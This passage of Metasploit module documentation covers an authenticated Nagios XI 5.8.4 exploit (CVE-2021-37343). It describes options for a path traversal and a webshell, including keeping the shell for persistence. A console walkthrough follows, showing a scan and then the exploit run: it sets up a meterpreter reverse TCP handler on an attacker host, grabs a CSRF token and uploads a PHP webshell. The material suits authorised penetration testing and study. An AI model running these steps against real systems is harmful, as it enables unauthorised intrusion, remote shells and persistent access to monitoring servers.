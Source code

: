 The username to log in to the Nagios XI web interface with. The default is `nagiosadmin`.

### PASSWORD

The password to log in with. Set to `nil` by default.

### DEPTH

The depth of the path traversal. Default is 10.

### WEBSHELL_NAME

Allows the user to name the webshell. If the user doesn't provided a name then one will be automatically generated.
Set to `nil` by default.

### DELETE_WEBSHELL

Indicates if the web shell should be deleted after the meterpreter session or reverse shell is established.
A user may want to leave behind a web shell for persistence reasons. The default is `true`.

## Scenarios

### Nagios XI 5.8.4 - Get a Meterpreter Session

```
msf > use auxiliary/scanner/http/nagios_xi_scanner
msf auxiliary(scanner/http/nagios_xi_scanner) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf auxiliary(scanner/http/nagios_xi_scanner) > set PASSWORD labpass1
PASSWORD => labpass1
msf auxiliary(scanner/http/nagios_xi_scanner) > run

[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.8.4
[+] The target appears to be vulnerable to the following 1 exploit(s):
[*] 
[*] 	CVE-2021-37343    exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/nagios_xi_scanner) > use exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] The target appears to be vulnerable. Determined using the self-reported version: 5.8.4
[*] Attempting to grab a CSRF token from /nagiosxi/includes/components/autodiscovery/?mode=newjob
[*] Uploading webshell to /nagiosxi/includes/components/highcharts/exporting-server/temp/fJHspzgor.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /nagiosxi/includes/components/highcharts/exporting-server/temp/fJHspzgor.php
```
